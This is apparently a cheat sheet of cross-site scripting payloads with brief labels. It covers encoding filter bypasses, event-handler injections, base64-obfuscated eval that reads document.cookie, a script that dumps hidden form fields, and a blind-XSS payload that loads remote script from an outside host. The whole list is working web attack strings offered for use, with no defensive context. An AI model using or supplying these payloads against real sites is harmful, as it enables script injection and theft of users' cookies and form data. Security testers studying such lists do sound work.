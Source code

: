 ```%u003Cscript%u003Eprompt%u0028303%u0029%u003C/script%u003E```  Older ASP encoding filter bypass

```%253Cscript%253Ealert(1)%253C%252Fscript%253E``` Older ASP encoding filter bypass

```<![CDATA[<]]>script<![CDATA[>]]>alert('xss')<![CDATA[<]]>/script<![CDATA[>]]>``` XML Reflection XSS

```javascript://%250aalert(1)```  Where :// is required after protocol

```"\"><s>test"@gmail.com```  XSS in email addresses
  
```javascript:eval(atob('YWxlcnQoZG9jdW1lbnQuY29va2llKTs='));```

```<script>eval(atob('YWxlcnQoZG9jdW1lbnQuY29va2llKTs='));</script>```

```<imG/sRc=l oNerrOr=(prompt)() x>```
"><script src=https://a007.xss.ht></script>											Blind 
<body onpageshow=alert(1)>
<style onload=alert(1)>
<marquee behavior="alternate" onstart=alert(1)>hack the planet</marquee>
<d3"<"/onclick="1>[confirm``]"<">z
&lt;script&gt;confirm(1)&lt;/script&gt;                                              HTML Encoding
“=””’></><script></script><svg onload=alert(1)>
<script>var xss = '';f=document.forms;for(i=0;i<f.length;i++){e=f[i].elements;for(n in e){if(e[n].type=='hidden'){alert(e[n].name+': '+e[n].value)}}};//'';</script>    GET Hidden Fields
<table><thead style=font-size:100px onmouseover=prompt(1)><td>XSS
<svg/x=">"/onload=confirm()//
<sCript x>(((confirm)))``</scRipt x>
